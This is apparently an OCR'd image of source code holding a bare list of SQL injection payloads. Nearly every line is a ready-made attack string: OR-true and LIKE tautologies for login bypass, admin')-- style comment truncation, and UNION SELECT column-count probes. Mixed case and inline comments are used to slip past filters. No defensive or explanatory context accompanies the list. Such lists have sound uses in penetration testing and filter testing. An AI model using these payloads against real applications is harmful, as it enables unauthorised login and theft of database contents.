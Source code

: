                 ")oR/**/2=2/**/oR("
                ")oR(2)=2-- 2
                ")oR(2)=2#
                ")oR(2)=2/*
                ")oR(2)=(2)oR("
                ")oR"2"="2" LimIT 1-- 2
                ")oR"2"="2" LimIT 1#
                ")oR"2"="2" LimIT 1/*
                ")oR(2)=(2)LimIT(1)-- 2
                ")oR(2)=(2)LimIT(1)#
                ")oR(2)=(2)LimIT(1)/*
                ')oR true-- 2
                ')oR true#
                ')oR true/*
                ')oR true oR('
                ')oR(true)-- 2
                ')oR(true)#
                ')oR(true)/*
                ')oR(true)oR('
                ')oR/**/true-- 2
                ')oR/**/true#
                ')oR/**/true/*
                ')oR/**/true/**/oR('
                ")oR true-- 2
                ")oR true#
                ")oR true/*
                ")oR true oR("
                ")oR(true)-- 2
                ")oR(true)#
                ")oR(true)/*
                ")oR(true)oR("
                ")oR/**/true-- 2
                ")oR/**/true#
                ")oR/**/true/*
                ")oR/**/true/**/oR("
                ')oR'2'LiKE('2
                ')oR'2'LiKE'2'-- 2
                ')oR'2'LiKE'2'#
                ')oR'2'LiKE'2'/*
                ')oR'2'LiKE'2'oR('
                ')oR(2)LiKE(2)-- 2
                ')oR(2)LiKE(2)#
                ')oR(2)LiKE(2)/*
                ')oR(2)LiKE(2)oR('
                ")oR"2"LiKE("2
                ")oR"2"LiKE"2"-- 2
                ")oR"2"LiKE"2"#
                ")oR"2"LiKE"2"/*
                ")oR"2"LiKE"2"oR("
                ")oR(2)LiKE(2)-- 2
                ")oR(2)LiKE(2)#
                ")oR(2)LiKE(2)/*
                ")oR(2)LiKE(2)oR("
                admin')-- 2
                admin')#
                admin')/*
                admin")-- 2
                admin")#
                ') UniON SElecT 1,2-- 2
                ') UniON SElecT 1,2,3-- 2
                ') UniON SElecT 1,2,3,4-- 2
                ') UniON SElecT 1,2,3,4,5-- 2
                ') UniON SElecT 1,2#
                ') UniON SElecT 1,2,3#